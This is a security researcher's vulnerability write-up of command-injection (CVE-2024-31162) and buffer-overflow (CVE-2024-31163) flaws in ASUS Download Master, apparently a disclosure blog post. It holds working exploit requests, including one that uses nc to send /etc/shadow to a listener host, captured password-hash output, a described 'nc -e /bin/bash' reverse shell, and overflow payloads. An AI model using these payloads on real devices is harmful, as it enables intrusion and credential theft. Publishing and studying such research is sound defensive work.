## Download Master, pt 2

Alright so here are the fun ones: command injections and buffer overflows.

## Command Injections - CVE-2024-31162

URL Path parameters are not sanitized prior to their inclusion within `system()` calls, resulting in the ability for authenticated users to perform command injection attacks.
	
The following `action_mode` values lead to unsafe `system` calls via the listed parameters:

`DM_ED2K_ADD` 
- `ED2K_SERVER_IP` and `ED2K_SERVER_PORT`

`DM_ED2K_REM` 
- `ED2K_SERVER_IP` and `ED2K_SERVER_PORT`

`DM_ED2K_CON`
- `ED2K_SERVER_IP` and `ED2K_SERVER_PORT`

`DM_LANG`
- `DM_language`

**Request:**
```
GET http://192.168.1.2:8081/downloadmaster/dm_apply.cgi?action_mode=DM_LANG&DM_language=%60nc+192.168.1.4+8080+%3c+%2fetc%2fshadow%60 HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:451f786bbe82b2356071dcee9386daa1
```

**Response:**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Fri, 28 Jul 2023 00:02:22 GMT
Server: lighttpd/1.4.39
Content-Length: 10

ACK_SUCESS
```

**Listener:**
```
➜  ~ sudo nc -lvp 8080
listening on [any] 8080 ...
192.168.1.2: inverse host lookup failed: Unknown host
connect to [192.168.1.4] from (UNKNOWN) [192.168.1.2] 42977
admin:$5$T[...].E5:0:0:99999:7:0:0:
nas:*:0:0:99999:7:0:0:
nobody:*:0:0:99999:7:0:0:
```

#### Screenshot:


**Vulnerable Code Example:**

Pretty straight forward.

```C
else {
    iVar2 = strcmp(var_action_mode,"DM_LANG");
    if (iVar2 == 0) {
    local_c4 = (undefined *)FUN_0001c498("DM_language");
    if (local_c4 == (undefined *)0x0) {
        local_c4 = &DAT_0002520c;
    }
    memset(&local_13b0,0,0x100);
    memset(acStack_17b0,0,0x100);
    sprintf(acStack_17b0,
            "sed -i \'19s/^.*$/LANGUAGE=%s/\' /opt/etc/dm2_general.conf",local_c4);
    system(acStack_17b0);
    system("cp -rf /opt/etc/dm2_general.conf /tmp/APPS/DM2/Config/dm2_general.conf")
    ;
    memset(acStack_17b0,0,0x100);
    sprintf(acStack_17b0,
            "sed -i \'19s/^.*$/LANGUAGE=%s/\' /opt/etc/dm2_general_bak.conf",
            local_c4);
    system(acStack_17b0);
    system(
            "cp -rf /opt/etc/dm2_general_bak.conf /tmp/APPS/DM2/Config/dm2_general_bak .conf"
            );
    sprintf((char *)&local_13b0,"nvram set gen_lang=%s",local_c4);
    system((char *)&local_13b0);
    system("nvram commit");
    printf("ACK_SUCESS");
    }
```



Pulling the shadow file is fun, sure. But getting a shell is way cooler. Fortunately for me, the device had `ipkg`. Soooo, I just used it to install netcat, then used netcat to connect back lmao. The app might *say* it's unsupported in the response, but it defo got installed >:D

#### Request:


Set up a listener and send a classic `nc -e /bin/bash`

#### Request:


#### Listener:


gottem

## Buffer Overflows - CVE-2024-31163

This one was much more involved than the other bugs and required a lot more effort. I've opted to just include my raw notes, rather than a polished post-mortem. As such, some shit I wrote at the time is just wrong, but it's psuedo stream-of-consciousness note taking, so that's how it works.

### TLDR;

Unsafe usage of `strcpy` via the `dm_ctrl` and `task_id` parameters leads to buffer overflows and full control of the `$PC` register. allowing full remote code execution agains tthe device.

```
GET /downloadmaster/dm_apply.cgi?action_mode=DM_CTRL&dm_ctrl=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&task_id=&download_type=OTHER HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:26b6ee548766dd93cf7729ca48e9e4e0;
```

**Asus syslog:**



**Emulated:**



### Raw Notes

Looks like unsafe usage of `strcpy` via the `dm_ctrl` and `task_id` parameters

**Request**
```
GET /downloadmaster/dm_apply.cgi?action_mode=DM_CTRL&dm_ctrl=BEEEGPARAM&task_id=BEEEGPARAM&download_type=OTHER HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:451f786bbe82b2356071dcee9386daa1
```

**Response - dm_ctrl**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Fri, 28 Jul 2023 00:24:39 GMT
Server: lighttpd/1.4.39
Content-Length: 6

UNKNOW
```

**Response - task_id**
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html
Content-Length: 369
Date: Thu, 27 Jul 2023 23:46:37 GMT
Server: lighttpd/1.4.39

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
     "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>500 - Internal Server Error</title>
</head>
<body>
<h1>500 - Internal Server Error</h1>
</body>
</html>

```

bad `strcpy`
```C
else {
iVar2 = strcmp(var_action_mode,"DM_CTRL");
if (iVar2 == 0) {
system("killall dm2_detect&");
system("rm -rf /tmp/APPS/DM2/Config/dm2_detect_protected");
FUN_000179e4(DAT_000393ec);
pcVar3 = (char *)FUN_0001c498("dm_ctrl"); // Here!
if (pcVar3 == (char *)0x0) {
  pcVar3 = &DAT_0002520c;
}
strcpy(acStack_920,pcVar3); // Copied to here!
iVar2 = strcmp(acStack_920,"start");
if (iVar2 == 0) {
  local_f8 = FUN_0001f858(&DAT_0003af84,&DAT_00038814,&DAT_000389dc);
  pcVar3 = (char *)FUN_0001c498("task_id"); // Here!
  if (pcVar3 == (char *)0x0) {
	pcVar3 = &DAT_0002520c;
  }
  strcpy(acStack_934,pcVar3); // Copied to here!
  local_fc = fopen("/tmp/APPS/DM2/Status/cgi_running","w");
  fclose(local_fc);
```

`acStack_934` is only allocated 5 bytes, lol:
Line 30: `char acStack_934 [5];`



`dm_ctrl` with lots of A's


```
GET /downloadmaster/dm_apply.cgi?action_mode=DM_CTRL&dm_ctrl=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&task_id=&download_type=OTHER HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:26b6ee548766dd93cf7729ca48e9e4e0;
```


OK debugging it via GDB is practically impossible, ugh, 19inferiors before dm_apply.cgi gets launched. Emulate!

After copying over the libraries, it's pretty easy to emulate it with `qemu-arm-static`. The CGI reads in the request parameters via the `QUERY_STRING` environment var, so it's easy to pass in arguments. A little tinkering and we had a crash :)

```
tester@asuserlin-ubuntu20:~/download_manager/asusware.arm$ sudo chroot . ./qemu-arm-static -strace -E QUERY_STRING='action_mode=DM_CTRL&dm_ctrl=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA